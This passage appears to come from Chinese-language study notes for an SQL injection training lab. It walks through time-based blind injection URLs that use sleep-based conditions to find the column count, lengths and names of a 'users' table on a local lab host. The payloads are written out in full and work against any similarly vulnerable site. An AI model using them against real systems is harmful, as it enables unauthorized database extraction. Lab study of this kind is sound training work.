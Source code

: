 - 依次为:117 115 101 114 115 即:``users``

- 这里就写详细些,把字段名也爆破出来

```sql
//users表的字段数-->3 也即是说在users表中有三个字段
http://192.168.77.131/master/Less-1/?id=1'and if((select count(column_name) from information_schema.columns where table_schema=database() and table_name=(select table_name from information_schema.tables where table_schema=database() limit 3,1))=3,sleep(5),0) --+
```

- 获取``字段数``

```sql
//第一个字段长度为2
http://192.168.77.131/master/Less-1/?id=1' and if((select length(column_name) from information_schema.columns where table_schema=database() and table_name=(select table_name from information_schema.tables where table_schema=database() limit 3,1) limit 0,1)=2,sleep(5),0) --+
```

```sql
//第二个字段长度为8
http://192.168.77.131/master/Less-1/?id=1' and if((select length(column_name) from information_schema.columns where table_schema=database() and table_name=(select table_name from information_schema.tables where table_schema=database() limit 3,1) limit 1,1)=8,sleep(5),0) --+
```

```sql
//第三个字段长度为8
http://192.168.77.131/master/Less-1/?id=1' and if((select length(column_name) from information_schema.columns where table_schema=database() and table_name=(select table_name from information_schema.tables where table_schema=database() limit 3,1) limit 2,1)=8,sleep(5),0) --+
```

- 开始爆破``users``每一个字段名

```sql
//获取第一个字段名 105 100 -->对应id
http://192.168.77.131/master/Less-1/?id=1' and if(ascii(substr((select column_name from information_schema.columns where table_schema=database() and table_name=(select table_name from information_schema.tables where table_schema=database() limit 3,1) limit 0,1),1,1))=97,sleep(5),0) --+
```

![image-20240821145440777](assets/image-20240821145440777.png)
